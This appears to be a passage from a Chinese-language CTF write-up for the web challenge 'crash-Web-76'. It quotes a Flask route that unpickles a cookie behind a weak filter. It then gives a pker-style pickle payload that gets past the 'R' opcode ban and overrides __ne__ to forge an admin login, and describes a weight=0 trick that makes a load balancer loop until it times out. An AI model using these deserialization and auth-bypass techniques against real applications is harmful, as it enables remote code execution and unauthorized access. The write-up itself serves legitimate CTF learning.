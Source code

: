 ``` json
{
    "product":[{"id":1,"num":0},{"id":2,"num":0}],
    "product":[{"id":1,"num":1},{"id":2,"num":1}]
}
```

## crash-Web-76

观察源码：

``` py
@app.route('/balancer', methods=['GET', 'POST'])
def flag():
    pickle_data=base64.b64decode(request.cookies.get("userdata"))
    if b'R' in pickle_data or b"secret" in pickle_data:
        return "You damm hacker!"
    userdata=pickle.loads(pickle_data)
    if userdata.token!=hash(get_password(userdata.username)):
         return "Login First"
    if userdata.username=='admin':
        return "Welcome admin, here is your next challenge!"
    return "You're not admin!"
```

一眼看上去就是 pickle 反序列化利用。但是这里禁用了 `R` 指令，不过问题不大，这里可以直接用 `o` 来平替。即 `<func>(<args>tR` 等价于 `(<func><args>o`。把 pker.py 脚本简单修改一下之后就能拿来用了。

（这里队内的M神已经RCE了，但是发现没权限读nginx的配置文件，环境也是很新的好像并没有什么提权的机会）

然后下一步就是让 `token != hash(...)` 为 `False`，这个我一开始尝试从 `app.get_password` 和 `admin.secret` 拿密码，但是拿不到。所以尝试将 `token` 变成一个对象，然后把这个对象的 `__ne__` hack 为永远返回 `False`。

下为 payload：~~发现不知道为啥不需要绕 `secret`，不过要绕过也很简单，拿 `str.__add__` 绕即可~~

``` python
partial = GLOBAL('functools', 'partial')
getattr = GLOBAL('__builtin__', 'getattr')
OrderedDict = GLOBAL('collections', 'OrderedDict')
startswith = getattr(GLOBAL('__builtin__', 'str'), 'startswith')
User = GLOBAL('app', 'User')

false = partial(startswith, '1', '2')
user.__ne__ = false
forever_ne = User('1', '2')

data = OrderedDict()
data.token = forever_ne
data.username = 'admin'

return data
```

然后这个 payload 扔上去之后就进到了一个均衡负载页面。结合时事（指某垃圾二次元视频网站的事故分析），发现把 `weight` 设置成 0 可以让 `gcd` 函数死循环，最终 504 从而拿到 flag。
